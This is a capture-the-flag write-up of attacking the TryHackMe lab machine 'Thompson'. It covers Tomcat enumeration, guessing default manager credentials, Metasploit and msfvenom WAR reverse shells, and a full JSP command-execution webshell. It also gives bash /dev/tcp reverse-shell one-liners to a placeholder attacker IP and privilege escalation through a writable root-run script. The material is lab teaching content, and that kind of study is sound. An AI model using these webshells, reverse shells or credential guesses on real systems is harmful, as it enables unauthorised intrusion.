Greetings everyone !
Today I would like to analyze the machine named Thompson on TryHackMe platform. Since the challenge was too simple to deal with especially the exploitation phase. I want to show you different techniques to reach post-compromise. Before I begin to solve machine, I want to remind
you about /etc/hosts. I did not showcase how you can add your customized domain instead of using IPv4 address every time.
curl provides a fast overview for web components of the target. Through the usage of port specification, we can observe whether the target port is live or not.
Default port 80
curl -v tom.thm
Customized Port 443 or 8080
curl -v tom.thm:443/tom.thm:8080

As you can see above, connection was failed on port 80 and 443. Now I also checked for Apache.

I got the connection and page received the HTTP method body. You can understand it from the image. Moreover, connection was established. Let's check my assumptions on browser :)


I was correct about the instance. When you see such default-configuration page of the web server, you should keep in mind that fuzzing must be done.
For the fuzzing part, dirsearch will be enough to check default endpoints for Apache Tomcat.
Run the command below:
dirsearch -u http://tom.thm:8080

Let's reach out the /manager because it seems like a configuration path.

By default Tomcat asking for the valid credentials to login. I tried 5 credentials from here.
admin:admin manager:manager admin:password tomcat:tomcat tomcat:s3cret
The last one worked !
You can also try bruteforce the panel with Burpsuite, THCHydra, `msf module: auxiliary/scanner/http/tomcatmgrlogin.

Above image depicts the management console of the Apache Tomcat product.
For the exploitation, I will show you different exploitation techniques especially in manual way:
Hacktricks provided a beautiful guideline to exploitation approaches towards in both automated and manual ways. In this instance, I was able to upload and run commands remotely known as RCE.
Metasploit Framework has a module called exploit/multi/http/tomcat_mgr_upload which automatically uploads a file to target & get reverse shell to the attacker machine.
You should configure RHOST, RPORT, LHOST and LPORT. Furthermore, if Apache requires credentials, do not forget to give them on settings in module.


Exploit firstly creating a staged payload then upload it through the page. After that by using multi/handler, it was sending staged payload. If it successes it will undeploy and meterpreter is received from msfconsole.
I deliberately failed at once in order to show you why we are using kiwi module in only Windows platforms.

As you can see, it was only COMPATIBLE with windows x86 or x64 platforms.
After that part you can modify the bash script to elevate your privileges or directly read flag.txt whether it occured or not.

Creating msfvenom payload is also a method to exploit the target:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<LHOST_IP> LPORT=<LHOST_IP> -f war -o revshell.war


Upload your payload via WAR file to deploy part.
Call netcat listener:


Now I got the shell, from that part, let's check the python binary. If we have we can enhance our shell with such payload:
python -c 'import pty; pty.spawn("/bin/bash")'



Finally, by using id.sh you can overwrite it & execute then you can elevate your privileges or you can read flag.txt or root.txt through /root/ path.
We have to create a file type Javascript Server Pagesnamed index.jsp file exactly because other file names did not work because of the default configuration of Apache Tomcat instance:
command prompt for application. This code segment provides user interactive utility for our current session.```
<%@ page import="java.io.*" %> <% String cmd = request.getParameter("cmd"); String output = ""; if(cmd != null) { String s = null; try { Process p = Runtime.getRuntime().exec(cmd,null,null); BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream())); while((s = sI.readLine()) != null) { output += s+""; } } catch(IOException e) { e.printStackTrace(); } } %><%=output %>
```
This is what is looks like after deployment of the .war application:
Let me try few commands:

HTTP parameters are retrieved by request.getParameter("cmd") and specifically finding cmd parameter's requests. Method allows us to run commands remotely. By default application is vulnerable to RCE.


You should also understand how the cmd works in backend. If it is not null, It is creating process with executing command method named exec() then it passes cmd and two consecutive null parameters. After that application receives & reads inputs given by user and add it on Buffer named sI.
if(cmd != null) {
String s = null;
try {
Process p = Runtime.getRuntime().exec(cmd,null,null);
BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
By using readLine() method it will reads if it is not null and gathers HTML formatted outputs:
while((s = sI.readLine()) != null) { output += s+"</br>"; }
} catch(IOException e) { e.printStackTrace(); }
}
Each time output appending s variable, string. Let's pass webshell through command-line:
Reverse shell generation is not hard process to understand simply visit this page.
bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1
cd /home/jack; bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1
Before you execute reverse shell payload, do not forget to deploy netcat listener:
nc -lvnp YOUR_PORT
Direct command-line reverse shell was not available ,so I can directly reach by powerful command-line

-rwxrwxrwx 1 jack jack 26 Aug 14 2019 /home/jack/id.sh
Content of the id.sh:
```
id > test.txt ```
Now embed a payload that can read /root/flag.txt:
cd /home/jack && echo "cat /root/flag.txt 2>/dev/null" >> id.sh && ./id.sh
Converting our webshell to reverse shell will fix the solution:

``` wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp zip -r backup.war cmd.jsp
go to the path: http://your-ip:8080/backup/cmd.jsp ```
You can reach same result from above.
On /home/jack directory, there is a file called test.txt and id.sh. It appends id command output through test.txt. By appending a command we can escalate our privileges.
``` echo "
cat /root/root.txt > text.txt" > id.sh ```
Append direct reverse shell

